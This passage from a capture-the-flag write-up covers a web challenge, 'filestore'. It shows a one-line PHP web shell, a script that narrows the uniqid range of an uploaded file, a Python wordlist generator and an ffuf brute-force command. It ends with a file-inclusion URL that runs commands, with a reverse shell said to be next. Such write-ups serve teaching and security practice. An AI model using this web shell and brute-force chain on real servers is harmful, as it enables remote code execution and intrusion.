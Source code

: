 This script uploads our _shell.php_ `<?php echo system($_GET['cmd']);` and gets a range of uniqids that our uniqid could be in it and prints the size of that range. To get a smaller range we can rerun the script a few times and use whichever range is the smallest (the second times benefits from DNS caching etc).

let's execute this script!
```bash
php uniqid.php     

644d9f4b6a272
644d9f4c493c0
913742
HTTP/1.1 200 OK
Server: nginx/1.23.3
Date: Sat, 29 Apr 2023 22:50:52 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 14
Connection: keep-alive
X-Powered-By: PHP/8.1.18

upload success% 
```

after getting our range we can generate a wordlist from it that we will use for brute-forcing the uniqid!

```python
f = open("wl.txt", "w")
start = int('644d9f4b6a272',16)
end = int('644d9f4c493c0',16)
for i in range(end,start,-1):# We generate the list backward as we expect the uniqid to be closer to the end time than the start
    f.write(str(hex(i)[2:])+"\n")

f.close()
```

We should sha256 hash our file name (_shell.php_) to craft the request as shown in the code audit.

And then ffuf to bruteforce it

```bash
ffuf -u 'https://filestore.web.actf.co/?f=FUZZ_92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64_shell.php' -w wl.txt -fs 5499
```
-fs 5499 filters out results with that page size, the page has an error message for file not found so the page size will be different when we get the right id. 

Eventually, we get the id for the file after ~200k requests and can include it:

```url
https://filestore.web.actf.co/?cmd=ls -lah&f=644d9f4XXXXXX_92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64_shell.php
```
__replace your own uniqid!__
So we can set up a reverse shell!
